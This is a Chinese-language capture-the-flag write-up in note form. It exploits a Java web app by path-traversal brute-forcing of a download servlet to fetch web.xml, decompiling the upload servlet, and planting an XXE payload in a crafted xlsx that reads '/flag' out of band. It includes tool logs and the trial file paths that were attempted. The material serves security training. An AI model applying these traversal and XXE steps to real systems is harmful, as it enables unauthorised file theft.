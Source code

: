- # 过程
	- 爆破下载接口
		- ```python
		  0it [00:00, ?it/s]INFO:root:[Auto Burst] Get: 137 Arg: .git
		  118it [00:11,  8.64it/s]INFO:root:[Auto Burst] Get: 1207 Arg: ../../../../WEB-INF/web.xml
		  128it [00:12,  9.79it/s]INFO:root:[Auto Burst] Get: -500 Arg: ../../../../WEB-INF/classes
		  528it [00:54,  8.91it/s]INFO:root:[Auto Burst] Get: 129 Arg: flag
		  1140it [01:58,  9.59it/s]
		  ```
	- 查看web.xml
		- ```xml
		  <web-app xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd" version="4.0">
		  <servlet>
		  <servlet-name>DownloadServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>DownloadServlet</servlet-name>
		  <url-pattern>/DownloadServlet</url-pattern>
		  </servlet-mapping>
		  <servlet>
		  <servlet-name>ListFileServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>ListFileServlet</servlet-name>
		  <url-pattern>/ListFileServlet</url-pattern>
		  </servlet-mapping>
		  <servlet>
		  <servlet-name>UploadServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>UploadServlet</servlet-name>
		  <url-pattern>/UploadServlet</url-pattern>
		  </servlet-mapping>
		  </web-app>
		  ```
	- 下载并反编译class文件，看到`cn.abc.servlet.UploadServlet`会读取以excel开头的xls文件
	  id:: 643172ce-5398-4e55-bee1-2e99a54ba9a3
	- 准备一个恶意xlsx文件：修改后缀为zip并解压一个xlsx文件，修改里面的xml文件，再压缩
	- 这里使用[OOB](((64301d45-52ef-4288-a4f1-f268848799a7)))来读取文件
		- `file:///`失败，无法读取文件夹
		- `/etc/passwd`失败，应该是无法读取多行文件
		- `file:///etc/passwd`失败
		- `flag`失败
		- `./flag`失败
		- `file://./flag`失败
		- `file:///flag`成功
	-
	-